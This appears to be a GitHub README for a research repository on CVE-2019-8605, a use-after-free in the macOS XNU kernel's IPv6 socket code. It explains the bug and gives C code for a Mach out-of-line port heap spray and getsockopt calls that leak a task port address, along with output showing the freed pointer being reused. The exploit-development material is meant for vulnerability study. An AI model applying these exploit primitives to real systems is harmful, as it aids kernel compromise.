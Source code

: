 # dangling_kptr_reuse (CVE-2019-8605)
## Environment
macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) needed)

## Description and Proof-of-Concept
A brief intro to CVE-2019-8605,<br>
via the ip6_freepcbopts function, inp->in6p_outputopts is freed,<br>
but not set to NULL, leaving a dangling pointer that still points to freed memory.
```c
void in6_pcbdetach(struct inpcb *inp) {
    // ...
    if (!(so->so_flags & SOF_PCBCLEARING)) {
        struct ip_moptions *imo;
        struct ip6_moptions *im6o;

        inp->inp_vflag = 0;
        if (inp->in6p_options != NULL) {
            m_freem(inp->in6p_options);
            inp->in6p_options = NULL;   // <- correctly NULLed (GOOD)
        }
        ip6_freepcbopts(inp->in6p_outputopts);    // <- freed only, NOT NULLed (BAD)
        // release route for mapped addresses (IPv4 related resource release)
        ROUTE_RELEASE(&inp->in6p_route);
        if (inp->inp_options != NULL) {
            (void)m_free(inp->inp_options);        // <- correctly NULLed (GOOD)
            inp->inp_options = NULL;
        }
        // ...
    }
}
```
<br>
An OOL (out-of-line) message is important in XNU's IPC mechanism
<br>and has the characteristic that it can keep data allocated in kernel space until the message is received.

Using these OOL messages we can perform heap spray so that inp->in6p_outputopts points to sprayed kernel memory containing ipc_port structures.

Kernel allocations in XNU use zones. Each zone contains objects of a specific size/type. For example, the kalloc.32 zone contains objects up to 32 bytes. The dangling ip6_pktopts structure is 192 bytes, so it belongs to the kalloc.192 zone. 

Therefore, when doing heap spray, the count parameter should be `192/sizeof(uint64_t)`.
```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }

    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

When heap spray runs, the kernel internally calls the following chain:
```c
mach_msg_overwrite_trap 
-> ipc_kmsg_copyin 
-> ipc_kmsg_copyin_body 
-> ipc_kmsg_copyin_ool_ports_descriptor 
-> ipc_object_copyin 
-> ipc_right_lookup_write 
-> ipc_entry_lookup
```

Because `ipc_entry_lookup` converts a name to the kernel-mode address of the Task Port entry, it results in 192-byte task ports being sprayed as shown below.
```c
ipc_entry_t
ipc_entry_lookup(
 ipc_space_t space,
 mach_port_name_t name)
{
 mach_port_index_t index;
 ipc_entry_t entry;
 index = MACH_PORT_INDEX(name);
 if (index < space->is_table_size) {
 entry = &space->is_table[index];
 ...
 }
 return entry;
}
```
- Sprayed task port kernel addresses:
```
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
```

The dangling 192-byte kernel structure looks like this:
```c
struct ip6_pktopts {
    struct mbuf         *ip6po_m;
    int                  ip6po_hlim;
    **struct in6_pktinfo  *ip6po_pktinfo;**
    struct ip6po_nhinfo  ip6po_nhinfo;
    struct ip6_hbh      *ip6po_hbh;
    struct ip6_dest     *ip6po_dest1;
    struct ip6po_rhinfo  ip6po_rhinfo;
    struct ip6_dest     *ip6po_dest2;
    **int                  ip6po_tclass;**
    **int                  ip6po_minmtu;**
    **int                  ip6po_prefer_tempaddr;**
    int                  ip6po_flags;
};
```
From userland, reading the `ip6po_minmtu` and `ip6po_prefer_tempaddr` fields allows leaking a task port.
```c
int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}
```

Thus, we examined how to reuse a dangling kernel pointer to leak data.

<b>This repository examines whether a dangling kernel pointer is actually reused.</b><br>
Using Siguza’s hsp4 kernel extension enables kernel read/write without a separate vulnerability.

Using a socket file descriptor, one can obtain the kernel address of the allocated 192-byte `ip6_pktopts` structure,<br>
and by accessing `ikmq_base` and `ikm_header` fields of OOL ports, one can get the `address` of the allocated `mach_msg_ool_ports_descriptor_t`.


If these addresses match, it means the dangling pointer was reused.
```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f890c7000
get_kbase ret: 0, kbase: 0xffffff8008200000, kslide: 0x8000000
[*] sock_fd: 3
[*] obtained dangling_kptr from socket_fd, 0xffffff80141cf040
[*] port_kaddr: 0xffffff801a1232a0
[*] ikmq_base: 0xffffff8019b96a00
[*] DANGLING KPTR REUSED!!!!!!
=============================
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
=============================
[*] our task port: 0xffffff801b68f150
```